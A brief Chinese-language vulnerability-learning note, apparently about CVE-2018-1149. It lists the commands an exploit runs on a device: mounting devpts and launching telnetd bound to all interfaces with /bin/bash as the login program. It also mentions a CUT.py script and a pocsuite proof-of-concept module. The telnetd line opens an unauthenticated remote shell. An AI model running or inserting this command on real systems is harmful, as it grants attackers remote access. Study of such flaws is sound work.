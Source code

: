 ```python 
```

command命令主要为：

					mount -t devpts devpts /dev/pts  #挂载  -t 指定要挂载的设备上的文件系统类型  devpts: 虚拟文件系统   /dev/pts:伪终端
	
					/bin/sh -c "/usr/sbin/telnetd -l /bin/bash -b 0.0.0.0"&     开启telnet 
	
	                                    telnet 程序通过 伪终端 对外进行通信



#### CUT.py 脚本 就是 基于此进行 的  设备操作 可以获得一些对应数据

同时也写成了pocsuite的验证模式见[地址](https://github.com/zhongshendoushuizhao/project/tree/master/vul_learn/web/CVE-2018-1149)










